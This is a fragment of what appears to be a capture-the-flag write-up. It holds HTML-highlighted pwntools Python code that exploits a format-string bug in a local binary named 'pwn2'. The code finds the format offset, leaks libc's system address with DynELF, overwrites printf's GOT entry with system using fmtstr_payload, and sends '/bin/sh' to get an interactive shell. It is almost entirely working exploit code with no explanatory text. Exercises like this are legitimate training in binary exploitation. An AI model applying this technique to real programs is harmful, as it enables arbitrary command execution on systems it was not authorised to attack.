 <span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">test</span><span class="hljs-params">(payload)</span>:</span>
    temp = process(<span class="hljs-string">'./pwn2'</span>)
    temp.sendline(payload)
    info = temp.recv()
    temp.close()
    <span class="hljs-keyword">return</span> info

auto = FmtStr(test)
<span class="hljs-keyword">print</span> auto.offset


<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">leak</span><span class="hljs-params">(addr)</span>:</span>
    payload = <span class="hljs-string">'A%9$s'</span>
    payload += <span class="hljs-string">'AAA'</span>
    payload += p32(addr)
    sh.sendline(payload)
    sh.recvuntil(<span class="hljs-string">'A'</span>)
    content = sh.recvuntil(<span class="hljs-string">'AAA'</span>)
    <span class="hljs-comment"># content = sh.recv(4)</span>
    <span class="hljs-keyword">print</span> content
    <span class="hljs-keyword">if</span>(len(content) == <span class="hljs-number">3</span>):
        <span class="hljs-keyword">print</span> <span class="hljs-string">'[*] NULL'</span>
        <span class="hljs-keyword">return</span> <span class="hljs-string">'\x00'</span>
    <span class="hljs-keyword">else</span>:
        <span class="hljs-keyword">print</span> <span class="hljs-string">'[*] %#x ---&gt; %s'</span> % (addr, (content[<span class="hljs-number">0</span>:-<span class="hljs-number">3</span>] <span class="hljs-keyword">or</span> <span class="hljs-string">''</span>).encode(<span class="hljs-string">'hex'</span>))
        <span class="hljs-keyword">print</span> len(content)
        <span class="hljs-keyword">return</span> content[<span class="hljs-number">0</span>:-<span class="hljs-number">3</span>]
<span class="hljs-comment">#-------- leak system</span>
d = DynELF(leak, elf=ELF(<span class="hljs-string">'./pwn2'</span>))
system_addr = d.lookup(<span class="hljs-string">'system'</span>,<span class="hljs-string">'libc'</span>)
log.info(<span class="hljs-string">'system_addr:'</span> + hex(system_addr))

<span class="hljs-comment">#-------- change GOT</span>
printf_got = elf.got[<span class="hljs-string">'printf'</span>]
log.info(hex(printf_got))

payload = fmtstr_payload(auto.offset, {printf_got: system_addr})
sh.sendline(payload)

payload = <span class="hljs-string">'/bin/sh\x00'</span>
sh.sendline(payload)

sh.interactive()</code></pre></hr></div>